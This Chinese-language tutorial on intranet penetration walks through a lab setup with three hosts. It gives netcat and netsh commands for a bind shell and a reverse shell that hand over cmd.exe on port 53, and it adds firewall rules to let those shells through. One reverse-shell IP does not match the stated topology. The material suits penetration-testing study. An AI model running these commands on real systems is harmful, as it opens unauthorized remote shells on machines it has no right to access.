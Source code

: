 [TOC]


# 内网渗透
## 0） 工具
[netcat工具下载地址](https://eternallybored.org/misc/netcat/)

## 1） 端口转发

*拓扑结构：*

| 名字 | 公网/内网 | IP |
|--------|--------|--------|
|   Win7专业版     |   攻击机子     |192.168.44.129(假设为自己公网IP)
|   Windows2008     |   目标边界机子     |192.168.44.133(假设为目标公网IP)
|   Win7渗透专用     |   目标内网机子     |192.168.44.130 (假设为目标内网IP)




### 1.1 netsh
1. 正向连接

	```
Windows2008命令：↓
  
  添加防火墙规则，允许外部来连接本地的 tcp 53 端口[入站允许]
Windows2008>netsh advfirewall firewall add rule name="nc bind shell" dir=in action=allow protocol=TCP localport=53
  
  -l 监听53端口，-e 创建shell
Windows2008>c:\>nc -lvp 53 -e cmd.exe
  
  结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc bind shell" dir=in protocol=TCP localport=53
```

	```
Win7专业版命令：↓
  
  -n 连接Windows2008的53端口
ske7Plus>nc -nv 192.168.44.133 53
```
![Windows2008 监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc1.png)
![Win7专业版   连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc2.png)

2. 反向连接
	```
Win7专业版命令：↓
  
  添加防火墙规则，允许 tcp 的 53 端口连入,然后再执行监听
ske7Plus>netsh firewall add portopening TCP 53 "nc reverse shell"
ske7Plus>nc -lvp 53
```

	```
Windows2008命令：↓
  
  添加防火墙规则，允许本地的 tcp 53 端口主动往外连[出站允许]
Windows2008>netsh advfirewall firewall add rule name="nc reverse shell" dir=out action=allow protocol=TCP localport=53
  
  -n 连接目标ske7Plus的53端口，-e 创建shell
Windows2008>nc -nv 192.168.3.102 53 -e cmd.exe
  
  结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc reverse shell" dir=out protocol=TCP localport=53
```
![Win7专业版   监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc3.png)
![Windows2008 连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc4.png)
